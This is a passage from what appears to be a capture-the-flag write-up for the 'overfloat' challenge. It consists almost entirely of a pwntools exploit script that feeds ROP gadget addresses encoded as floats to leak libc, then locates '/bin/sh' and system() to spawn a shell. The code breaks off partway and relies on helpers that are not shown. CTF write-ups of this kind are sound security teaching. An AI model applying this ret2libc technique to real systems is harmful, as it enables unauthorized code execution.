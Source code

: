 ```python
p.sendlineafter(": ",str(c))

libc=ELF("./overfloat").libc
#p=process('./overfloat')
p=remote("challenges.fbctf.com",1341)
for x in range(7):
sd()
sd()
rdi=0x00400a83
sd("5.881243E-39")
sd("0")
sd("8.827732E-39")
sd("0")

puts=0x000000000400690
sd("5.879826E-39")
sd("0")

rdi=0x00400a83
sd("5.881243E-39")
sd("0")
sd("2.8E-44")
sd("0")

rsi=0x400a81
sd("5.88124E-39")
sd("0")


sd("5.881103E-39")
sd(0)
sd()
sd()

#sig
sd("5.880005E-39")
sd("0")

main=0x400993
sd("5.880906E-39")
sd("0")

p.sendline("done")

p.readuntil("\n")
base=u64(p.readuntil("\n")[:-1].ljust(8,'\x00'))-(0x7ffff7a649c0-0x7ffff79e4000)
log.warning(hex(base))
libc.address=base
for x in range(7):
sd()
sd()

sh=libc.search("/bin/sh").next()
log.info(hex(sh))
log.info(hex(libc.sym['system']))
sd("5.881103E-39")
sd("0")

sd("5.881243E-39")
sd(0)
context.log_level='debug'
#gdb.attach(p,'b *0x000000000400982')
a=tran.tran(sh&0xffffffff)
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team